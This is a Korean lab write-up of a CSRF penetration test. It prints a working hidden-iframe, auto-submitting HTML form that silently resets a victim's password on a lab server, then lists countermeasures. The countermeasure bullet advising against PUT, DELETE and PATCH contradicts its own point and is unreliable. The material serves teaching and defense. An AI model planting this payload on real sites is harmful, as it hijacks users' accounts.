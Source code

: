 ## CSRF 모의해킹
CSRF(Cross-Site Request Forgery) 공격은 인증된 사용자의 권한을 사용하여 악의적인 요청을 보내는 공격입니다. 이번 모의해킹에서는 공격자가 악성 요청을 보내어 다른 사용자의 비밀번호를 임의로 수정하는 공격을 다루었습니다.

## 공격 실습

공격자는 다음과같은 HTML 코드를 게시글에 작성합니다.
```html
<iframe name="ifr" width=0 height=0></iframe>
<FORM target="ifr" id="chpw" METHOD="POST" action="http://192.168.219.180/login/changepw_do.php">
<INPUT type="hidden" name="pw" value="1234">
</FORM>
<script>document.getElementById("chpw").submit();</script>
패스워드 변경 1234
```
해당 코드를 살펴보면 HTML 의 iframe을 이용하여 width 와 height를 모두 0으로 설정하여 보이지 않도록하고 비밀번호를 1234로 변경하도록하는 POST 요청을 보냅니다.

**1. 사용자의 원래 비밀번호**

![csrf_userpw]

**2. 사용자가 CSRF 공격이포함된 게시글 클릭**

![csrf_click]

**3. 사용자의 비밀번호가 변경됨**

![csrf_changedpw]

## 대응 방안
- CSRF 토큰 사용: 서버 측에서 발급한 CSRF 토큰을 포함하여 요청을 보내도록 클라이언트에게 요청합니다. 이 토큰은 세션에 저장되어 있는 정보를 이용하여 생성됩니다. 공격자가 이 토큰을 알지 못하면 CSRF 공격을 수행할 수 없습니다.

- SameSite 쿠키 속성 사용: SameSite 쿠키 속성을 사용하여, 같은 도메인 내에서만 쿠키가 전송되도록 합니다. 이를 통해 CSRF 공격으로 인한 쿠키 변조를 막을 수 있습니다.

- Referrer 검증: Referer 헤더를 검증하여, 요청이 온 도메인이 맞는지 검증할 수 있습니다. 하지만, Referer 헤더는 클라이언트에서 조작이 가능하기 때문에 완전한 대응 방안은 아닙니다.

- 안전하지 않은 HTTP 메서드 사용 금지: CSRF 공격에서 주로 사용되는 HTTP 메서드는 GET과 POST입니다. PUT, DELETE, PATCH와 같은 안전하지 않은 HTTP 메서드를 사용하지 않도록 합니다.

- CSRF 방어 라이브러리 사용: CSRF 공격 방어를 위한 라이브러리를 사용하여, 자동으로 CSRF 토큰을 생성하고, 검증하는 등의 방어 기능을 제공합니다.
